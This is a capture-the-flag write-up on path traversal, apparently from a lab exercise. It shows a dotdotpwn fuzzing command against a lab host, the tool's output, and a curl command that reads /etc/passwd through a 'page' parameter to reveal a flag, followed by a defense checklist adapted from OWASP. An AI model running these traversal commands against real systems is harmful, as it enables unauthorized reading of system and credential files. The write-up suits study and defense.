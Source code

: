 # Path_Traversal

https://owasp.org/www-community/attacks/Path_Traversal

## Description

Here we find a path traversal vulnerability
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder
With a Directory Traversal Fuzzer, dotdotpwn, we can set how far we want to search and what to search
So we set dotdotpwn to search until 7 ../ with the option -d and for a text pattern to match in the response with -k (flag)

## Attack

	$ dotdotpwn -m http -h "192.168.1.75/?page=" -d 7 -k "flag"

	#################################################################################
	#                                                                               #
	#  CubilFelino                                                       Chatsubo   #
	#  Security Research Lab              and            [(in)Security Dark] Labs   #
	#  chr1x.sectester.net                             chatsubo-labs.blogspot.com   #
	#                                                                               #
	#                               pr0udly present:                                #
	#                                                                               #
	#  ________            __  ________            __  __________                   #
	#  \______ \    ____ _/  |_\______ \    ____ _/  |_\______   \__  _  __ ____    #
	#   |    |  \  /  _ \\   __\|    |  \  /  _ \\   __\|     ___/\ \/ \/ //    \   #
	#   |    `   \(  <_> )|  |  |    `   \(  <_> )|  |  |    |     \     /|   |  \  #
	#  /_______  / \____/ |__| /_______  / \____/ |__|  |____|      \/\_/ |___|  /  #
	#          \/                      \/                                      \/   #
	#                              - DotDotPwn v3.0.2 -                             #
	#                         The Directory Traversal Fuzzer                        #
	#                         http://dotdotpwn.sectester.net                        #
	#                            dotdotpwn@sectester.net                            #
	#                                                                               #
	#                               by chr1x & nitr0us                              #
	#################################################################################

	[+] Report name: Reports/192.168.1.75/?page=_04-04-2022_16-47.txt

	[========== TARGET INFORMATION ==========]
	[+] Hostname: 192.168.1.75/?page=
	[+] Protocol: http
	[+] Port: 80

	[=========== TRAVERSAL ENGINE ===========]
	[+] Creating Traversal patterns (mix of dots and slashes)
	[+] Multiplying 7 times the traversal patterns (-d switch)
	[+] Creating the Special Traversal patterns
	[+] Translating (back)slashes in the filenames
	[+] Adapting the filenames according to the OS type detected (unix)

	[+] Including Special sufixes
	[+] Traversal Engine DONE ! - Total traversal tests created: 12866

	[=========== TESTING RESULTS ============]
	[+] Ready to launch 3.33 traversals per second
	[+] Press Enter to start the testing (You can stop it pressing Ctrl + C)

	[*] Testing Path: http://192.168.1.75/?page=:80/../etc/passwd <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../etc/issue <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../etc/passwd <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../etc/issue <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../../etc/passwd <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../../etc/issue <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../../../etc/passwd <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../../../etc/issue <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../../../../etc/passwd <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../../../../etc/issue <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../../../../../etc/passwd <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../../../../../etc/issue <- FALSE POSITIVE!

	[*] Testing Path (response analysis): http://192.168.1.75/?page=:80/../../../../../../../etc/passwd <- VULNERABLE!

	[*] Testing Path: http://192.168.1.75/?page=:80/../../../../../../../etc/issue <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/..%5Cetc%5Cpasswd <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/..%5Cetc%5Cissue <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/..%5C..%5Cetc%5Cpasswd <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/..%5C..%5Cetc%5Cissue <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/..%5C..%5C..%5Cetc%5Cpasswd <- FALSE POSITIVE!

	[*] Testing Path: http://192.168.1.75/?page=:80/..%5C..%5C..%5Cetc%5Cissue <- FALSE POSITIVE!


	$ curl http://192.168.1.75/\?page\=:80/../../../../../../../etc/passwd | grep flag
		% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
									Dload  Upload   Total   Spent    Left  Speed
	100  7014    0  7014    0     0  70345      0 --:--:-- --:--:-- --:--:-- 77076
	<script>alert('Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ');</script><!DOCTYPE HTML>

The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

## Defense

Prefer working without user input when using file system calls

Use indexes rather than actual portions of file names when templating or using language files (ie value 5 from the user submission = Czechoslovakian, rather than expecting the user to return “Czechoslovakian”)

Ensure the user cannot supply all parts of the path – surround it with your path code

Validate the user’s input by only accepting known good – do not sanitize the data

Use chrooted jails and code access policies to restrict where the files can be obtained or saved to

If forced to use user input for file operations, normalize the input before using in file io API’s, such as normalize().